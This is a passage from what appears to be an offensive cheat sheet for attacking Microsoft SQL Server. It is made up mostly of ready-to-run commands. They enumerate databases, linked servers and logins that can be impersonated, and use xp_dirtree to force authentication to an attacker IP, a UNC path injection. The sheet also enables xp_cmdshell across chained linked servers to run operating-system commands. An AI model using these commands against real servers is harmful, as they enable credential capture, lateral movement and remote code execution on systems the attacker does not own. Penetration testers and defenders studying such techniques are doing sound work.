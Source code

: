 List databases:

```sql
SELECT name FROM master..sysdatabases;
```

List linked servers:

```sql
EXEC sp_linkedservers;
```

List logins available for impersonation:

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```




## UNC Path Injection

- [https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e](https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e)
- [https://0xdeaddood.rocks/2023/02/28/relaying-everything-coercing-authentications-episode-1-mssql/](https://0xdeaddood.rocks/2023/02/28/relaying-everything-coercing-authentications-episode-1-mssql/)

```
SQL > EXEC master..xp_dirtree '\\10.10.13.37\share\test.txt';
PowerUpSQL > Get-SQLQuery -Instance "SQLSRV01.megacorp.local,1433" -Query "EXEC master..xp_dirtree '\\10.10.13.37\share\test.txt'"
```




## Crawl Links

* [https://blog.netspi.com/how-to-hack-database-links-in-sql-server/](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf](https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf)
* [https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
* [https://xakep.ru/2020/01/24/lateral-movement/#toc01.](https://xakep.ru/2020/01/24/lateral-movement/#toc01.)

Exec code from SQLSRV00 when SQLSRV01 and SQLSRV02 are linked like this SQLSRV00 -> SQLSRV01 -> SQLSRV02:

```sql
EXEC sp_serveroption 'SQLSRV01','rpc','true';
EXEC sp_serveroption 'SQLSRV01','rpc out','true';

EXEC ('select SYSTEM_USER;') AT [SQLSRV01];
EXEC ('EXEC (''select SYSTEM_USER;'') AT [SQLSRV02];') AT [SQLSRV01];

EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') AT [SQLSRV01];
EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''',1; RECONFIGURE; EXEC sp_configure ''''xp_cmdshell'''',1; RECONFIGURE;'') AT [SQLSRV02];') AT [SQLSRV01];

EXEC ('EXEC xp_cmdshell ''cmd /c ping -n 2 10.10.13.37'';') AT [SQLSRV01];
EXEC ('EXEC (''EXEC xp_cmdshell ''''cmd /c ping -n 2 10.10.13.37'''';'') AT [SQLSRV02];') AT [SQLSRV01];
```
